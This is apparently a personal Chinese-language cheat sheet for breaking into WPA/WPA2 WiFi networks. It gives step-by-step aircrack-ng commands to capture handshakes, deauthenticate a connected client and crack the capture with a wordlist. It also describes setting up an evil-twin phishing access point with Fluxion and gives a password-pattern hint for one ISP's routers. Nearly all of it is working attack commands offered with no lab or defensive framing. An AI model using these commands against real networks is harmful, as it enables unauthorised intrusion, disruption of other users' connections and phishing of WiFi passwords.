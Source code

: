 
被动方式
```sh
lusb # 看有没有显示
ifconfig # 查看 wlan0 无线网卡
airmon-ng # 查看是否支持监听模式 显示wlan0 支持
airmon-ng start wlan0 # 开启监听

airodump-ng wlan0  # 扫描 wifi

# BSSID             PWR   Beacons	CH  # CH wifi频段11
# 60:32:B1:56:3F:B2 -32   24      11
# BSSID              STATTION
# 60:32:B1:56:3F:B2  CC:08:FB:DD:42:18

# 只用此方式抓包较慢
airodump-ng -c 11 --bssid 60:32:B1:56:3F:B2 -w /home/lingdu/handshake wlan0

# CH 11 Elasped : 3 mins ... [WPA handshake -- 显示 handshake 为攻击成功, 这时Ctrl+C退出命令
```

ACK方式
```sh
# 上面的不要关闭
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c CC:08:FB:DD:42:18 wlan0
# -0: 通知设备断开连接 10: 攻击次数 -a:目标bssid -c: 目标踢下线的设备
```

aircrack-ng -w ~/password.txt -b ~/handshake-01.cap


## 钓鱼 fluxion
https://github.com/FluxionNetwork/fluxion

```sh
./fluxion.sh -i

# 2.Handshake Snooper 检索WPA/WPA2加密散列。
# 3.扫描所有信道 （2.4G和5G),  绿色是正在有人在连接且扫描到的。白色不确定是否有连接。
# 2.重置攻击
# 2.aireplay-ng 解除认证方式
# hash 验证方法: cowpatty

# 返回
# 1 创建一个邪恶的双胞胎接入点
# 1 创建SSL证书
# 2 仿真（断开原网络的选项 需要测试，不确定效果）
# 认证页面 选3中文。 (如果确认对方路由器也可选别的)
```
## Dictionary

天翼wifi:8位数字密码，例如 xx4yyykw


## Article
[零度WIFI安全测试](https://www.youtube.com/watch?v=_9q9Cl555wg)